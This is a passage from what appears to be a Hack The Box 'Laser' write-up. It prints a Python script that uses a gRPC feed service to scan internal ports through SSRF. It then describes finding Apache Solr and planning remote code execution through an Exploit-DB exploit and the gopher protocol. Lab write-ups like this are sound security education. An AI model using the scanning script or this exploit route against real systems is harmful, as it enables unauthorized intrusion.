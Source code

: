 ```python
import service_pb2
import service_pb2_grpc
import grpc
import pickle
import base64
import json

all_ports=['15','17','18','18','19','19','21','22','23','25','80','81','123','389','443','636','989','990','1433','1499','2022','2122','2222','2375','2376','2380','2480','2483','2484','2638','3000','3001','3020','3306','3389','3389','3500','3999','4000','4100','4200','4243','4244','4444','4500','4505','4506','5000','5001','5004','5005','5037','5432','5500','5601','5666','5667','5672','5800','5900','5984','5999','6000','6082','6379','6653','6660','6661','6662','6663','6664','6665','6666','6667','6668','6669','6888','6888','7474','7777','8000','8001','8002','8005','8008','8080','8089','8081','8123','8139','8140','8172','8222','8333','8443','8889','8983','8999','9000','9001','9006','9042','9050','9051','9092','9200','9500','9800','9999','10050','10051','11211','11214','11215','15672','18091','18092','27017','27018','27019','28015','29015','33848','35357']
for ports in all_ports:
    json_data={
        "feed_url" : "http://localhost:{}".format(ports)
        }
    send_data = json.dumps(json_data)
    Serialized_Data = pickle.dumps(send_data) 
    b64_encoded = base64.b64encode(Serialized_Data)
    #print (b64_encoded)
    channel = grpc.insecure_channel('10.10.10.201:9000')
    stub = service_pb2_grpc.PrintStub(channel)

    get_data = service_pb2.Content()
    get_data.data = b64_encoded
    try:
        response = stub.Feed(get_data)
        #print(response.SerializeToString())
        print ("Port {}".format(ports))
        print (response)
    except Exception as E:
        pass
```

The result of that script was port `8983` which was default port for Apache Solr service, what can we do with this? I searched for an exploit on the Exploit-Database, 

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-laser/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-laser/Untitled%205.png)

Then I stumbled upon the [this exploit](https://www.exploit-db.com/exploits/47572) and which can be used to get the RCE on the machine **but** after analyzing the exploit I realized it was sending a `POST` request, ah here we go again, how are we supposed to send a `POST` request if we can barely interact with the Apache Solr. To my surprise, the `gopher` protocol was accepted by the server.

